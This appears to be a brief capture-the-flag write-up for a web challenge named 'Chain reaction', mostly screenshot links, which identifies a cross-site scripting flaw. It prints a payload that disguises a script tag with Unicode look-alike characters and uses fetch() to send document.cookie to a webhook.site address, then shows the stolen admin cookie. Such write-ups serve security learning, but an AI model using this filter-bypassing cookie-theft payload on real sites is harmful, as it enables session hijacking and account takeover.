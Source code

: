 # Chain reaction

First, register  and login 

![](../.gitbook/assets/image%20%2848%29.png)

![](../.gitbook/assets/image%20%2843%29.png)

Go to devchat and we will see john talking about bug

Unicode characters

Take a look our profile

![](../.gitbook/assets/image%20%2849%29.png)

![](../.gitbook/assets/image%20%2845%29.png)

using this to encode [unicode ](https://www.irongeek.com/homoglyph-attack-generator.php)

and use url encode to encode the command

![](../.gitbook/assets/image%20%2844%29.png)

![](../.gitbook/assets/image%20%2847%29.png)

=&gt; This chall is xss 

host sever: webhook.site

Taking cookie admin

```text
payload = ﹤ˢcrⁱpt﹥fetch("https://webhook.site/05a170ea-bd98-44f8-9239-3f1381970e68c="+document.cookie)﹤/ˢcrⁱpt﹥
```

![](../.gitbook/assets/image%20%2846%29.png)

```text
admin-cookie=sup3rs3cur34dm1nc00k13
```

![](../.gitbook/assets/image%20%2850%29.png)


